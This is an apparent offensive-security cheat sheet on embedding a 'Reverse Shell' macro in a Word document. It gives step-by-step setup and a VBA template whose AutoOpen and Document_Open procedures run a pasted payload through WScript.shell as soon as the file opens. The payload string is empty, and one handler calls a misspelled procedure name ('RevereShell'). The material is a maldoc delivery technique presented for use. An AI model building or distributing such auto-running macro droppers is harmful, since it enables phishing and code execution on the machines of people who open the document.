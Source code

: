 <p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/metawork_ms_office_macros.md.md">Top of Page</a> |
  <a href="/CheatSheets/metawork_ms_office_macros.md#bottom-of-page">Bottom of Page</a>
</p>

# Cheatsheets - Macros
## Table of Contents
* [How to Add a Macro to a Microsoft Word Document](#how-to-add-a-macro-to-a-microsoft-word-document)
* [Example Macro](#example-macro)
* [Example Macro Syntax Explained](#example-macro-syntax-explained)
* [VBScript, CScript, and WScript](#vbscript-cscript-and-wscript)

## How to Add a Macro to a Microsoft Word Document
1. Click-on "View" > "Macros" 
2. Set "Macro name" to be "Reverse Shell"
3. Set "Macros in" to be the name of the current Word document
4. Click-on "Create"
5. Replace the provided template code with your payload (see below for an example)
6. Save the macro-embedded file as a "Word 97-2003 Document"

## Example Macro
To test the example code below, save it with a .doc or .docm file (do not use .docx). Ensure to use variables to store strings as VBA limits string lengths to no more than 255 per string. In other words, if you have a long payload, break it up and then concatenate each part to a variable. 
```vba
Sub AutoOpen()
  ReverseShell
End Sub

Sub Document_Open()
  RevereShell
End Sub

Sub ReverseShell()
  ' copy/paste your payload into the FOO variable
  Dim FOO As String
  FOO = ""
  
  CreateObject("Wscript.shell").Run FOO
End Sub
```

## Example Macro Syntax Explained
```bash
# Sub = used like a function, does not return values (functions do)
# AutoOpen() = predefined procedure; executed when a new doc is opened
# Document_Open() = predefined procedure; exec when a doc is already opened
# ' = comments
# Dim = used to declare a var (example declares FOO as a string var)
# CreateObject() = ???
# End Sub = represents the end of "sub" procedure within our exploit
```

## VBScript, CScript, and WScript
* 'cscript' runs entirely in the command line and is ideal for non-interactive scripts.
* 'wscript' will popup Windows dialogue boxes for user interaction.

<p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/metawork_ms_office_macros.md.md">Top of Page</a> |
  <a href="/CheatSheets/metawork_ms_office_macros.md#bottom-of-page">Bottom of Page</a>
</p>

## Bottom of Page
